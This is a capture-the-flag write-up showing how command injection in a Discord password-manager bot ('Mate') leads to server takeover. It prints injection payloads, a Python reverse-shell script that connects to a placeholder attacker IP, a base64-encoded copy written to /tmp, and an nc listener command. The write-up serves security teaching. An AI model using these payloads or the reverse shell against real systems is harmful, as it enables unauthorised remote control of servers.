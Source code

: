 # Bot Takeover - 0x1

**`Authors:`**    
[LaidMalik](https://github.com/malikDaCoda)  
[Ouxs](https://github.com/ouxs-19)  
[hfz](https://github.com/hfz1337)  

## Description

> Check out our latest service known as "Mate", a friendly bot and a very secure password manager based on the latest encryption technology (OPENSSL).
> You can find him on our discord server https://discord.gg/F7rzGXmQ   

## Write-up 

In this challenge we are dealing with a service that let us store our passwords and we can do that by interacting with the discord bot       
#### Recon  

After registering and knowing the functions of the bot we can divide them into to two sections :  
*`Authentification category : `* : It consists of the login and register function .
*`Data category`* : These functions let us add , delete and view our data .

##### notes 

- Since all we can do is login and inserting/deleting data the exploit is propably an injection(SQLI ,command injection , xpath injection ... )
- The challenge description insists on the use of OPENSSL so we should keep this in mind .   

#### Searching for the exploit point

###### Authentification category

Trying to throw quotes in the login and register functions didn't seem to do do anything and by changing my discord name  I couldn't reregister, so they are propably using our uid which means we only controll the password which highly narrows the possiblities so propably the bug is not here .  

###### Data category

Same thing checking if there any type of sqli by putting a quote as an input ,but wait this time we get something intressting . When trying to add a username containing a quote `!add http://shellmates.club/ ' BSides` this what happens 
                                                (exp1)
Now we have something to work with , our data is paassed to a shell command . Remember the OPENSSL encryption , It's propably used here (We can't be 100% sure) to encrypt our data but the coder didn't safely implemented it .
Now we need to find how to exploit it 

#### Exploit

The command used inside the bot is in this form `command '{our input}' rest of the command` . In order to inject our code we need first to end the first command , insert our command and finally remove the rest and it's quitly simple to do that.Our command should look something like this `command ''; $our_command # rest of the command` .  
* ` ' `  :  To close the first quote and complete the first command 
* ` ; `  :  In order to specify a second command 
* `our_command`  :  This is the command tha we want to execute  
* `#`  :  To comment out the rest   

Not we need to try it , since only the stderr is the one that get redirect to us we can't try commands like `ls,id,whoami` we need a command that we can know that it worked without seeing a response and `sleep` is our savior here .Let's try it out , the command should look like this :
```sh
!add http://shellmates.club/ " ' ; sleep 10 #" BSides
```
- note : I added "" because the payload contains spaces    

And bingo the sleep worked , all we need to do now is to get a reverse shell on the server.  I used this python script for the reverse shell
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$you_adress_ip",$port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```
Since our input will be inside double quotes and our input also contains quotes and double quotes , it will get ugly if we try to make it valid ,an easy way to pass that is to encode in base 64 `base64 you_exploit -w0 `, then when sending it in the command injection and saving it to a file in the server after decoding it . So now our command will be like this : 
```sh
!add http://shellmates.club/ " ' ; echo aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoIiR5b3VfYWRyZXNzX2lwIiwkcG9ydCkpCm9zLmR1cDIocy5maWxlbm8oKSwwKQpvcy5kdXAyKHMuZmlsZW5vKCksMSkKb3MuZHVwMihzLmZpbGVubygpLDIpCnA9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9iYXNoIiwiLWkiXSk= |base64 -d > /tmp/exploit.py #" BSides
```
- I didn't put it in the directory of the bot because we don't have the permission to create files there.   

Now all we need to do is listen in the local machine `nc -nlvp $port` and run the exploit that we have in the server  
```sh
!add http://shellmates.club/ " ' ; python3 /tmp/exploit.py  #" BSides
```
                
It worked ! we are in , now you can get your flag .  
                                            (exp2)
### Flag 

`shellmates{ev3n_D1$c0Rd_b0Ts_c4n_b3_vUln3r@ble_t0_c0Mm@nd_1nj3cti0n}`

